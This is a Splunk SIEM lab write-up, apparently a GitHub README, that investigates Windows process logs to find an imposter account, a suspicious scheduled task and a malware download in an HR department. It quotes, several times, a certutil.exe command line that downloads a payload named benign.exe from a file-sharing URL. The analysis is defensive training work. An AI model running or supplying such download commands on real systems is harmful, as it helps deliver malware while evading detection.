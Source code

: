 # Splunk-Lab

## Objective

Identify and Investigate an Infected Host

One of the client’s IDS indicated a potentially suspicious process execution indicating one of the hosts from the HR department was compromised. Some tools related to network information gathering / scheduled tasks were executed which confirmed the suspicion. Due to limited resources, we could only pull the process execution logs with Event ID: 4688 and ingested them into Splunk with the index win_eventlogs for further investigation.

About the Network Information:
The network is divided into three logical segments. It will help in the investigation.

### IT Department

James, Moin, Katrina

### HR department

Haroon, Chris, Diana

### Marketing department

Bell, Amelia, Deepak


## Skills Learned

- Splunk Fundamentals
- Log Analysis
- Search Processing Language (SPL) Proficiency
- Incident Investigation with Splunk
- Identifying Indicators of Compromise (IOCs)
- Hands-on SIEM Skills

### Tools Used

- Splunk.


## Steps

### Task 1: Analyze the logs from March 2022 to identify the imposter account.

Procedure:

1. Connect to index=win_eventlogs and set the date range to March 2022.
2. Analyze the UserName field for unusual entries.
   
Outcome: Using the query index=win_eventlogs | top limit=11 UserName, an imposter account named Amel1a was identified at the bottom of the results in the visualization tab, indicating suspicious activity.

Visual: Visualization of top 11 usernames, highlighting the imposter account.

![image](https://github.com/user-attachments/assets/7b54383e-05ff-4a13-a04a-d6a62ca715ec) 

### Task 2: Investigate the HR department.

Procedure:

1. Search within the HR department logs using the query index=win_eventlogs HostNames="*HR*".
2. Examine rare values in the CommandLine field for anomalies.

Visual: CommandLine, Rare Values

![image](https://github.com/user-attachments/assets/26e7ff4e-267e-496c-8e46-16c012fe0e55) 

Visual: Two suspicious activities were observed. 

![image](https://github.com/user-attachments/assets/812b2fb0-1d92-44ef-b4b1-5936ce234543) 



First im going to focus on the bottom one and create a new search with that value:

Visual: New search with the value mentioned above.

![image](https://github.com/user-attachments/assets/f751d7c3-b3ce-4b1c-97bf-c166c7912d61) 

From here I observed that the user Chris.fort from the HR department is running schedulded tasks. Creating a scheduled task to run an executable from a temporary directory (such as AppData\Local\Temp) can be suspicious, as this is a common technique used by malware to maintain persistence on a system. So this could mean that update.exe is an unknown or potentially harmful file.


Shifting focus to the first suspicious command line instance, I searched for the value certutil.exe -urlcache -f - https ://controlc.com/e4d11035 benign.exe. This revealed that the LOLBIN certutil.exe was used to download a malicious payload from the file-sharing host controlc.com.

Visual: CommandLine logs and details of the certutil.exe activity.

![image](https://github.com/user-attachments/assets/20c5bfd3-ab2d-40f8-9c76-564c6e2a31cf) 

Outcome:

- User Haroon used certutil.exe (a LOLBIN) to download a payload from https ://controlc.com/e4d11035, indicating the use of a file-sharing service (controlc.com) to deliver the benign.exe malware file.
 
Details of the Findings:

- LOLBIN used: certutil.exe -urlcache -f - https ://controlc.com/e4d11035 benign.exe
  
- Purpose of certutil.exe: Originally designed for certificate management but abused to download files from the internet.
  
- How LOLBINs Are Used in Attacks: Persistence, defense evasion, and command-and-control are common uses of LOLBINs, which makes their detection challenging.
  
Infected Host Activity:

- User: Haroon

- Third-party site: controlc.com

- Malicious file downloaded: benign.exe

- URL: https ://controlc.com/e4d11035

- Date: March 4, 2022


## Conclusion

This project successfully identified an imposter account within event logs and detected suspicious activities in the HR department. Through analysis of LOLBINs and scheduled tasks, we uncovered potential malware persistence and malicious file downloads, demonstrating the importance of log analysis in detecting threats.







































